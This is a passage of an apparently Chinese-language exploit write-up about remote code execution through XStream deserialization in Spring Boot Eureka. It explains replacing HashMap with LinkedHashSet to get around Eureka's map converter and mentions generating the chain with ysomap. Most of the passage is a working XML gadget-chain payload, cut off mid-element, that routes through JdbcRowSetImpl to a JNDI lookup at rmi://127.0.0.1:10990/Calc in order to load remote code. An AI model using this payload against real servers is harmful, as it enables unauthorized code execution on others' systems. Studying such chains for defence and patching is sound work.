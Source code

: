 




### [eureka xstream deserialization RCE](https://github.com/LandGrey/SpringBootVulExploit#0x03eureka-xstream-deserialization-rce)

eureka xstream  反序列化漏洞本质是xstream反序列化漏洞，但有一点和传统XStream漏洞利用有区别的是，eureka处理不了hashmap。得重新构造EXP。
This XStream payload is a slightly modified version of the ImageIO JDK-only gadget chain from the [Marshalsec research](https://github.com/mbechler/marshalsec). The only difference here is using **LinkedHashSet** to trigger the 'jdk.nashorn.internal.objects.NativeString.hashCode()' method. The original payload leverages java.lang.Map to achieve the same behaviour, but Eureka's XStream configuration has a [custom converter for maps](https://github.com/Netflix/eureka/blob/master/eureka-client/src/main/java/com/netflix/discovery/converters/XmlXStream.java#L58) which makes it unusable. The payload above does not use Maps at all and can be used to achieve Remote Code Execution without additional constraints.
在[exploiting-spring-boot-actuators](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)中写上面这段说明，大致意思就是eureka中不能使用hashmap，得替换成**LinkedHashSet** 。网上流传的XStream的payload都是基于hashmap的，原文给的payload以及check list的payload都是弹计算器，不能进一步的深入利用。如何构造转化成JNDI这一问题摆在我们面前，一开始踩了很多坑，后来发现[YSOMAP](https://github.com/wh1t3p1g/ysomap)里面集成了这个Payload。ysomap的使用方法大致类似于msf，如下图。
![image-20211228174026997](https://cdn.jsdelivr.net/gh/SummerSec/Images//27u4027ec27u4027ec.png)


但生成的payload得小改一下（将**HashMap**改成**LinkedHashSet** ），经过多次测试最终成形的payload如下：
```java
<linked-hash-set>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="com.sun.rowset.JdbcRowSetImpl" serialization="custom">
                      <javax.sql.rowset.BaseRowSet>
                        <default>
                          <concurrency>1008</concurrency>
                          <escapeProcessing>true</escapeProcessing>
                          <fetchDir>1000</fetchDir>
                          <fetchSize>0</fetchSize>
                          <isolation>2</isolation>
                          <maxFieldSize>0</maxFieldSize>
                          <maxRows>0</maxRows>
                          <queryTimeout>0</queryTimeout>
                          <readOnly>true</readOnly>
                          <rowSetType>1004</rowSetType>
                          <showDeleted>false</showDeleted>
                          <dataSource>rmi://127.0.0.1:10990/Calc</dataSource>
                          <listeners/>
                          <params/>
                        </default>
                      </javax.sql.rowset.BaseRowSet>
                      <com.sun.rowset.JdbcRowSetImpl>
                        <default>
                          <iMatchColumns>
                            <int>-1</int>
                            <int>-1</int>
                            <int>-1</int>
                            <int>-1</int>
```